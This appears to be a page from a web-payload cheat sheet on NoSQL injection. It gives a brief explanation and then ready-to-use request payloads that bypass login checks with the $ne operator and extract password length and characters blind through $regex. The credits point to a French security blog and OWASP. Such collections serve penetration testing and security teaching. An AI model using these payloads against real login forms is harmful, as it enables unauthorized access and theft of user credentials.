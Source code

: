# NoSQL injection
NoSQL databases provide looser consistency restrictions than traditional SQL databases. By requiring fewer relational constraints and consistency checks, NoSQL databases often offer performance and scaling benefits. Yet these databases are still potentially vulnerable to injection attacks, even if they aren't using the traditional SQL syntax.

## Exploit

Basic authentication bypass using not equal ($ne)
```
username[$ne]=toto&password[$ne]=toto
```

Extract length information
```
username[$ne]=toto&password[$regex]=.{1}
username[$ne]=toto&password[$regex]=.{3}
```

Extract data information
```
username[$ne]=toto&password[$regex]=m.{2}
username[$ne]=toto&password[$regex]=md.{1}
username[$ne]=toto&password[$regex]=mdp

username[$ne]=toto&password[$regex]=m.*
username[$ne]=toto&password[$regex]=md.*
```

## Thanks to
* https://www.dailysecurity.fr/nosql-injections-classique-blind/
* https://www.owasp.org/index.php/Testing_for_NoSQL_injection